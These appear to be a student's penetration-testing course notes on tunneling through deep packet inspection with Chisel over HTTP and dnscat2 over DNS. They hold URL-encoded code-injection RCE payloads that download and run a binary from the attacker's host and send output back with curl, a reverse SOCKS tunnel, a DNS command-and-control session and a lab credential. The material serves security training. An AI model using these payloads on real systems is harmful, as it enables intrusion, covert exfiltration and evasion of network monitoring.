 # Module 19: Tunneling Through Deep Packet Inspection

HTTP Tunneling Theory and Practice

#### HTTP Tunneling Fundamentals

Beause of things like _Deep Packet Inspection (DPI)_ we may only be able to communicate via a specific protocol, in this case HTTP. Essentially, we'll be doing the same thing as we did in the last module where we tunneled traffic through our SSH tunnel, but this time through HTTP.

#### HTTP Tunneling with Chisel

Introducing _Chisel_! Chisel is a HTTP tunneling tool that encapsulates our data stream within HTTP, using the SSH protocol within the tunnel so data is encrypted. Let's get teh Chisel started.

{% code overflow="wrap" lineNumbers="true" %}
```bash
kali@kali:~$ sudo cp $(which chisel) /var/www/html/
kali@kali:~$ sudo systemctl start apache2

# Setting up a tcpdump to log the incoming traffic
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080

# Utilizing our RCE to download the chisel client and make it executable
# The command: wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

# Setting up the chisel server
kali@kali:~$ chisel server --port 8080 --reverse

# Making the chisel client connect, setting up a reverse SOCKS tunnel
# The command: /tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

# Huh... nothing happened. Time too redirect stdout and strderr to a file, sending the contents of that file over http back to our Kali box.
# The command: /tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
kali@kali:~$curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/

# The error found was /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
# Our steps to troubleshoot this one involves checking the version of our chisel client via chisel -h. Researching this version compiled with Go 1.20.7 indicated other errors. Further research finds that there is a Go 1.19-compiled Chisel 1.81 binary for Linux on amd64 processors. We can then redownload this new agent and test again. Success! The chisel server also indicates an inbound connection.

# Using ncat to push ssh through the socks proxy.
kali@kali:~$ sudo apt install ncat
kali@kali:~$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```
{% endcode %}

### DNS Tunneling Theory and Practice

#### DNS Tunneling Fundamentals

Example of exfiltration via DNS: making DNS queries to HEX strings.domainwecontrol.com where the HEX strings are bits of encoded binary/sensitive data.

Example of infiltration via DNS: Hosting our own DNS server with txt records, then querying them from an _internal_ device.

#### DNS Tunneling with dnscat2

Starting the dnscat2 server:

```bash
kali@felineauthority:~$ dnscat2-server feline.corp

# From the internal device
database_admin@pgdatabase01:~$ cd dnscat/
database_admin@pgdatabase01:~/dnscat$ ./dnscat feline.corp

# Back on the kali box running dnscat2 we see a session established
dnscat2> New window created: 1
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Annoy Mona Spiced Outran Stump Visas

dnscat2>

# Interacting with the session created
dnscat2> windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = feline.corp [*]
  1 :: command (pgdatabase01) [encrypted, NOT verified] [*]
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Annoy Mona Spiced Outran Stump Visas
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command (pgdatabase01) 1> ?

Here is a list of commands (use -h on any of them for additional help):
* clear
* delay
* download
* echo
* exec
* help
* listen
* ping
* quit
* set
* shell
* shutdown
* suspend
* tunnels
* unset
* upload
* window
* windows
command (pgdatabase01) 1>

# Now let's get the DNS tunneling setup via the listen command
command (pgdatabase01) 1> listen --help
Error: The user requested help
Listens on a local port and sends the connection out the other side (like ssh
	-L). Usage: listen [<lhost>:]<lport> <rhost>:<rport>
  --help, -h:   Show this message
command (pgdatabase01) 1> listen 127.0.0.1:4455 172.16.2.11:445
Listening on 127.0.0.1:4455, sending connections to 172.16.2.11:445

# Finally, let's utilize the DNS tunneling to try and list SMB shares
kali@felineauthority:~$ smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
Password for [WORKGROUP\hr_admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
    	scripts         Disk
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.50.63 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available
```
